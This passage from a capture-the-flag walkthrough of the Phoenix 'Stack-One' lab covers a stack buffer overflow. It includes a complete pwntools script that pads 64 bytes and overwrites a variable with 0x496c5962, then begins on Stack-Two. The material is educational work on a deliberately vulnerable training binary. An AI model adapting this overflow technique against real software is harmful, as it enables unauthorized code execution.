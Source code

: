 ![stackonecutter](../Images/PhoenixExploit/stackonecutter.JPG)

More specifically, it is being compared with value `0x496c5962`.

So, to sum up, we need to have a padding of 64 bytes and then have `changeme` equal `0x496c5962`.
Fortunately, `pwntools` has a great way of helping us convert `0x496c5962` into bytes in little-endian format (x86 and x64 architectures are in little-endian format) and allow for us to feed it through as an command line argument.

Final Exploit:
```python
from pwn import * # import everything from pwn

# variables
BUF_LEN = 64 # buffer size
win = pack(0x496c5962, None, 'little', True) # 0x496c5962 in little endian is bYlI

# payload
payload = b'A'*BUF_LEN # our padding
payload += win # changeme

# attach process with command line arguments
p = process(argv=['./stack-one', payload])

# to get a shell
p.interactive()
```

Great success!


![stackonesuccess](../Images/PhoenixExploit/stackonesuccess.jpg)

---
### Stack-Two
Stack-Two is incredibly similar to Stack-Zero and Stack-One, however, this has to be done through environmental variables.

